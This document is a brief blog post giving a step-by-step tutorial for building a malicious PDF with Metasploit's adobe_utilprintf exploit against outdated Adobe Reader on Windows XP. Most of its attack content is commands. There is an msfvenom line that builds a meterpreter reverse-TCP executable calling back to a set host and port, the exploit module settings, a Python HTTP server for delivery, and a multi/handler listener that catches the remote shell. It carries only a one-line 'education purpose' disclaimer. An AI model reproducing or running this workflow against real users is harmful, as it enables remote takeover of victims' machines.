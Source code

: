 ```yaml
---
title: "Create malicious PDF"
date: "2020-10-02"
layout: single
tags:
- Malicious
categories:
- Blog-post
---
```


Malicious PDF is one of the way to hack users because this document format and Adobe Reader (PDF reader) are used by almost everyone.

In this article, I will show you how to generate our malicious PDF using Metasploit. We gonna use an old exploit for a vulnerable Adobe Reader version.

**This article is for research and education purpose only**. Do with your own risk!

**The exploit is targeting a specific version of Adobe Reader** which is **vulnerable Adobe Reader version** (less than 8.1.2). So, you need to install this version first on your Windows XP target machine as mention in Metasploit module.

## 1. Generate malicious pdf
We gonna use `adobe_utilprintf` vulnerability

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/1.PNG)

    use exploit/windows/fileformat/adobe_utilprintf
    set filename malicious.pdf
    set payload windows/exec
    set cmd malware.exe
    exploit

## 2. Create reverse shell executable
Copy the malicious pdf to a directory that we gonna setup our HTTP server.
And create a reverse shell executable using msvenom.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/2.PNG)

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.83.128 LPORT=1111 -f exe > malware.exe

Note:
Change LHOST with your IP

## 3. Download executable and PDF  in the target machine

You can use this python line to step up local HTTP server.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/3.PNG)

    python -m SimpleHTTPServer

Rename `evil.exe` to `malware.exe` (if you name the executable as evil.exe during generating reverse shell executable using msfvenom)

Download both of the files, and copy `malware.exe` to `System32` folder

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/4.PNG)

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/5.PNG)

## 4. Listen to reverse shell

Listen to reverse shell and wait for the execution of the file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/6.PNG)

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.83.128
    set lport 1111
    run

## 5. We're in 🎉 
After we double click the PDF, the exploit will run. So, our classic exploit is successful!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/7.PNG)

